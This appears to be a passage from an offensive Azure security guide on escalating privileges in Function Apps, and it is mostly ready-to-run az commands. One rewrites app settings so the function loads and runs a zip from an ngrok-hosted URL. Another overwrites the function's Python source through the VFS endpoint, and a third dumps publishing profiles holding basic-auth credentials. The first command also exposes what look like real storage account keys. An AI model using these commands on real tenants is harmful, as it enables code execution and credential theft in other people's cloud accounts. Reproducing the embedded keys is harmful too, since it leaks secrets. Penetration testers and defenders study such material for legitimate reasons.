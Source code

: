 {% code overflow="wrap" %}
```bash
# Modify the function
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Web/sites/newfunctiontestlatestrelease/config/appsettings?api-version=2023-01-01" \
  --headers '{"Content-Type": "application/json"}' \
  --body '{"properties": {"APPLICATIONINSIGHTS_CONNECTION_STRING": "InstrumentationKey=67b64ab1-a49e-4e37-9c42-ff16e07290b0;IngestionEndpoint=https://canadacentral-1.in.applicationinsights.azure.com/;LiveEndpoint=https://canadacentral.livediagnostics.monitor.azure.com/;ApplicationId=cdd211a7-9981-47e8-b3c7-44cd55d53161", "AzureWebJobsStorage": "DefaultEndpointsProtocol=https;AccountName=newfunctiontestlatestr;AccountKey=gesefrkJxIk28lccvbTnuGkGx3oZ30ngHHodTyyVQu+nAL7Kt0zWvR2wwek9Ar5eis8HpkAcOVEm+AStG8KMWA==;EndpointSuffix=core.windows.net", "FUNCTIONS_EXTENSION_VERSION": "~4", "FUNCTIONS_WORKER_RUNTIME": "python", "WEBSITE_CONTENTAZUREFILECONNECTIONSTRING": "DefaultEndpointsProtocol=https;AccountName=newfunctiontestlatestr;AccountKey=gesefrkJxIk28lccvbTnuGkGx3oZ30ngHHodTyyVQu+nAL7Kt0zWvR2wwek9Ar5eis8HpkAcOVEm+AStG8KMWA==;EndpointSuffix=core.windows.net","WEBSITE_CONTENTSHARE": "newfunctiontestlatestrelease89c1", "WEBSITE_RUN_FROM_PACKAGE": "https://4c7d-81-33-68-77.ngrok-free.app/function_app.zip"}}'
```
{% endcode %}

### Microsoft.Web/sites/hostruntime/vfs/write

With this permission it's **possible to modify the code of an application** through the web console (or through the following API endpoint):

{% code overflow="wrap" %}
```bash
# This is a python example, so we will be overwritting function_app.py
# Store in /tmp/body the raw python code to put in the function
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<subcription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/hostruntime/admin/vfs/function_app.py?relativePath=1&api-version=2022-03-01" \
  --headers '{"Content-Type": "application/json", "If-Match": "*"}' \
  --body @/tmp/body
```
{% endcode %}

### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

This permissions allows to list all the publishing profiles which basically contains **basic auth credentials**:

```bash
# Get creds
az functionapp deployment list-publishing-profiles \
    --name <app-name> \
    --resource-group <res-name> \
    --output json
```
